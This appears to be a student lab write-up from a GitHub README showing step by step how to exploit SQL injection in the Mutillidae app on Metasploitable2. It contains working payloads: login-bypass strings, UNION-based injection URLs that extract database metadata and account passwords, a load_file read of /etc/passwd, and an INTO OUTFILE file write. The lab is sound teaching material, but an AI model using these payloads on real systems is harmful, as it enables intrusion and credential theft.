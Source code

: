 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![output1 (1)](https://github.com/viswapriyaG/sqlinjection/assets/131427787/34ef7c82-d32e-4549-86ef-e377b4ab7032)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 
![output2](https://github.com/viswapriyaG/sqlinjection/assets/131427787/340a56b1-1942-49eb-b6fd-d6935c294f24)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![output3](https://github.com/viswapriyaG/sqlinjection/assets/131427787/267759c4-27eb-4f2f-bb2c-4dfae4b9027f)

Click on the menu Login/Register and register for an account
![output4](https://github.com/viswapriyaG/sqlinjection/assets/131427787/5fe16d4e-5de6-42aa-97b5-6df39cf261eb)

Click on the link “Please register here”
![output5](https://github.com/viswapriyaG/sqlinjection/assets/131427787/1fbd4764-0aac-410b-ac37-15f18e47cf58)

Click on “Create Account” to display the following page:
![output6](https://github.com/viswapriyaG/sqlinjection/assets/131427787/9039bcf9-35cb-4b9b-8b0b-56d66c047ef3)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![output7 (1)](https://github.com/viswapriyaG/sqlinjection/assets/131427787/9cd99c9a-804d-4419-bfac-94e57843b62f)


Click “Login”. The logged in page will show as below:
![output8](https://github.com/viswapriyaG/sqlinjection/assets/131427787/f43f4ba2-0d21-4a28-985e-d6aa7a3d96e9)


##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![output9 (1)](https://github.com/viswapriyaG/sqlinjection/assets/131427787/ab6709b8-8596-4d5e-a771-95622ebb3bb0)

Click the login button and you will see it enter into the administrator page.
![output10](https://github.com/viswapriyaG/sqlinjection/assets/131427787/afc3b6f8-c94f-4a34-a64a-18fef9e4c742)


Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![output11 (1)](https://github.com/viswapriyaG/sqlinjection/assets/131427787/996101b2-a5e9-471f-b1c7-d78f8872023b)
![output12](https://github.com/viswapriyaG/sqlinjection/assets/131427787/1578fe27-f14e-4c5f-9f05-6ab326b76cd6)
![output13](https://github.com/viswapriyaG/sqlinjection/assets/131427787/52744f55-90be-463a-8b3c-05c366f7bb41)
![output14](https://github.com/viswapriyaG/sqlinjection/assets/131427787/9857d90e-eaf6-4f2d-99f1-fbe49bb8c2d7)
![output15](https://github.com/viswapriyaG/sqlinjection/assets/131427787/57251a92-abc3-43f0-b418-43a9150e1c2b)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned. 
![output16](https://github.com/viswapriyaG/sqlinjection/assets/131427787/76ea689c-360c-485f-802b-202fbcfefa28)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![output17](https://github.com/viswapriyaG/sqlinjection/assets/131427787/e757d11d-2658-4773-9771-50a01eb7f80b)

After adding the order by 6 into the existing url , the following error statement will be obtained:

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![output18](https://github.com/viswapriyaG/sqlinjection/assets/131427787/d9446502-4943-4984-9eb4-e139caf3c16b)

As it is having 5 columns the query worked fine and it provides the correct result
![output19](https://github.com/viswapriyaG/sqlinjection/assets/131427787/1853f829-d456-433d-8fa4-41844f1c44bb)


Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![output20](https://github.com/viswapriyaG/sqlinjection/assets/131427787/d12f491d-6e31-40e9-94a1-ef699d571d13)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![output21](https://github.com/viswapriyaG/sqlinjection/assets/131427787/bbfd0b4f-9038-4d54-9f56-caaffd5b0ee8)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![output22](https://github.com/viswapriyaG/sqlinjection/assets/131427787/5ed39a73-313e-4705-a4d6-6f4bb2f1c743)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![output23](https://github.com/viswapriyaG/sqlinjection/assets/131427787/2e4a2a23-2249-442f-9053-55626fbbd05f)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![output24](https://github.com/viswapriyaG/sqlinjection/assets/131427787/a0623f68-b0e1-4864-9704-a69989baaf76)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![output25](https://github.com/viswapriyaG/sqlinjection/assets/131427787/fbb65e3c-087c-4006-8056-1ebb7f83fc77)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![output26](https://github.com/viswapriyaG/sqlinjection/assets/131427787/c79f2825-2fa4-42a4-87e7-81642b8a43e5)

Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![output27](https://github.com/viswapriyaG/sqlinjection/assets/131427787/017865c5-c5bd-4c29-bd46-1971dd27be76)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
